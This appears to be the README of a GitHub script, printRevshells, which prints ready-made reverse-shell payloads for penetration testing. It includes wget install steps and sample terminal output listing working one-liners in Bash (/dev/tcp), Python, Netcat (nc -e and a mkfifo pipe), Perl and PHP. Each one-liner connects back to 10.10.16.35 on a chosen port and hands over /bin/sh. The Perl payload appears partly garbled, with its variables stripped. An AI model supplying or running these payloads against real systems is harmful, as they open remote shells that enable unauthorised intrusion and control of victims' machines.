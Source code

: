 ## printRevshells

### Purpose
Got sick of looking for the same payloads every time you want to pop a reverse shell? This simple script will print via the terminal the most common revshell payloads you can find on the web.

There are plenty of payloads online but this script includes:
- Bash
- Python
- Netcat
- Perl
- PHP

The script is easily customizable so you can add your own payloads aswell


### Installation
```
sudo wget https://raw.githubusercontent.com/therodri2/printRevshells/main/printRevshells -O /usr/local/bin/printRevshells
sudo chmod +x /usr/local/bin/printRevshells
username=$(whoami)
sudo chown $username /usr/local/bin/printRevshells

```


### Usage
If you have followed the installation instructions, the script will be within your PATH, so you can call it from anywhere!

Simply type `printRevshells`

Example:

```
shroudri@kali:/tmp$ printRevshells
Bash
bash -i >& /dev/tcp/10.10.16.35/9001 0>&1

Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.35",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([/bin/sh,-i]);'
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.35",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([/bin/sh,-i]);'

Netcat
nc -e /bin/sh 10.10.16.35 9001
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.35 9001 >/tmp/f 

Perl
perl -e 'use Socket;="10.10.16.35";=9001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in(,inet_aton()))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

PHP
php -r '$sock=fsockopen("10.10.16.35",9001);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### - Wait! But I want to specify the port!

By default, **if no arguments are provided**, the script will use 9001 as the default port. You can customize this easily on the script.

However, if you want to specify your own port, you can execute the script as follows.
```
printRevshells 1234
```

Which generates the following output:

```
Bash
bash -i >& /dev/tcp/10.10.16.35/1234 0>&1

Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.35",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([/bin/sh,-i]);'
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.35",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([/bin/sh,-i]);'
.....
```
